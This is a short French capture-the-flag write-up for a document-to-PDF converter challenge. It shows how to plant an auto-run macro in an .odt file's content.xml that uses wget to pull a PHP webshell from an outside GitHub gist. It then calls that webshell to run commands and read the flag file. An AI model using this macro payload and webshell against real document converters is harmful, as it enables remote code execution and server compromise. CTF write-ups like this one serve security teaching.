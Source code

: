 # Icare/Convertor

# Description

Un Dev a mis en place une petite page web, pour convertir des documents au format pdf.

Est-ce que c'est assez robuste ?

Récupérer le Flag dans /flag/flag.txt

# Writeup

Fichier pdf de Icare

# Test

créer un fichier.odt
```
unzip le fichier.odt
```
Ajouter une macro qui dl un webshell dans content.xml
```
<office:scripts><office:event-listeners><script:event-listener script:language="ooo:script" script:event-name="office:load-finished" xlink:href="macro:shell(%22wget%20https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php%22)" xlink:type="simple"/></office:event-listeners></office:scripts>
```
Re-zip le fichier
```
7z a fichier.odt *
```
Upload le fichier

Accès au webshell 
```
http://127.0.0.1/easy-simple-php-webshell.php?cmd=cat+%2Fflag%2Fflag.txt
```
